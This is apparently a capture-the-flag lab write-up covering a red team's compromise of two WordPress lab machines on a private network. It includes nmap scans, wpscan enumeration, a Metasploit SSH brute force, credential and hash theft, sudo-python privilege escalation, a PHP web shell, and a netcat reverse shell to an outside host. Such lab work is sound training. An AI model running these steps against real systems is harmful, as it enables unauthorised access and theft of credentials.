


# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

`$ nmap -sV -O 192.168.1.115`

  This scan identifies the services below as potential points of entry:
- Target 2
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 2
---------------------------------------------COMPLETE

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - 
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        -  
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        -  
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        -  
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        -  
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - 
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - 
        - `describe wp_posts;`
        - 
        - `select post_content from wp_posts where post_content like '%flag%';`
        - 
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - 
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - 
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - 
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - 
      - `cat /root/flag4.txt`
      - 

- Target 2
    - `flag1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - We will use gobuster to enumerate the website
        - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115/`
        - 
        - After further inspecting the option we choose to check out the /vendor directory
        - 
        - Visiting the Path file shows the first flag
        - 
    - `flag2`: flag2{6a8ed560f0b5358ecf844108048eb337}
    - **Exploit Used**
      - We will exploit the insecure webserver and upload a backdoor to give us a bash shell on the target machine
        - We take this [exploit.sh](exploit.sh) and run it to place a backdoor onto the target webserver
        - To test that the exploit worked we visit `view-source:http://192.168.1.115/backdoor.php?cmd=whoami`
        - 
      - Next step is starting a netcat listener on the kali machine
        - `nc -lnvp 4444`
      - Than we use the backdoor file to connect the target computer to our kali machine by visiting this url
        - `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
      - Now that we have a shell spawned on the target machine we will run a find command for the second flag
        - `find / -iname '*flag*' -type -f`
        - 
        - This gives us the second flag and the location of the third flag
    - `flag3`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - From the find command used to locate the second command we know the location of the third flag as well
        - 
        - We can now visit `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png` to see the third flag
        - 